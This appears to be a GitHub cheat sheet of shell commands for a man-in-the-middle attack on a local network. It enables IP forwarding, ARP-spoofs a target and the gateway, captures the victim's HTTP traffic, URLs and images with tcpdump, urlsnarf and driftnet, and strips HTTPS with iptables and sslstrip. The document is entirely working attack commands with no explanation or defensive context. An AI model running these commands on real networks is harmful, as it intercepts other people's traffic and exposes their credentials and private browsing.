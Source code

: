 ### forward IPV4 traffic
```
echo 1 > /proc/sys/net/ipv4/ip_forward
 
# send fake ARP packages
arpspoof -i <interface> -t <rhost> -r <gatewayIp>
```

### dump TCP traffic
```
tcpdump -i <interface> -A host <rhost> and port 80 > <rhost.txt>
```

### extract urls from TCP traffic
```
urlsnarf -i <interface>
```

### capture images
```
driftnet -i <interface>
```

#### downgrade HTTPS to HTTP - redirect requests from port 80 to 8080
```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

### -l = listen to port 8080
```
sslstrip -l 8080
```

